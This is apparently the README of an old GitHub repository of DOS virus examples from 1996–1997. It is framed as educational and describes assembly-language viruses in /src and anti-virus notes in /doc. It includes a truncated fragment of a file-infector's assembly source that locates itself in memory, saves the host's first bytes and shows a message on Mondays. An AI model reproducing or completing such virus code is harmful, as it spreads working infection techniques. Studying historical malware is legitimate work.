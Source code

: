 Computer Viruses
================

Last update: 1996 - 1997

This project contains education / informative materials about DOS viruses.

- The [/src](/src) folder contains a few DOS bases viruses created in assembly language
- The [/doc](/doc) folder contains information about DOS viruses and antiviruses

```assembly
lungime equ ((offset sfirsit)-(offset entry))
.model tiny
.code
org 100h
entry: call entr                                ; find in BP the address of the virus
entr   proc near
       pop bp
       sub bp,3
       mov byte ptr [cale+2-entry+bp],'C'

       mov cx,5                                 ; save the first 5 bytes
       mov si,offset header-entry               ; in memory
       add si,bp
       mov di,offset horig-entry
       add di,bp
       rep movsb

          mov ah,2ah
          int 21h
          cmp al,1                               ; display the message if monday
          jnz urmat
          mov ah,9
          mov dx,offset mesaj-entry
          add dx,bp
          int 21h

	...
```

![Analytics](https://ga-beacon.appspot.com/UA-2402433-6/beacon.en.html)
